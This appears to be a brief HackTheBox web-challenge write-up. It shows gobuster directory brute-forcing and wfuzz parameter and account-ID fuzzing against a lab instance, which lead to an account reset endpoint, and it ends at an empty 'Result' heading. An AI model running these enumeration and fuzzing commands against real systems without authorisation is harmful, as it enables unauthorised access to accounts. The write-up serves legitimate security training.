









# Before Cracking:

Run the instance:

Go to instance:

# Trials

-   Start with gobuster
    `gobuster -u http://docker.hackthebox.eu:30029/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
    

    > find a directory named `api`

-   gobuster with `api`
    `gobuster -u http://docker.hackthebox.eu:30029/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
    

    > get `action.php`

-   go to the action.php page
    

    > we need to find the parameters

-   use `wfuzz`
    `wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:30029/api/action.php?FUZZ=test`
    

    > fing parameter `reset`

-   go to the `action.php` with `reset=test`
    

-   use `wfuzz` to find account ID
    `wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:30029/api/action.php?reset=FUZZ`
    

    > get accountID: 20

-   go to the `action.php` with `reset=20`
    

# Result

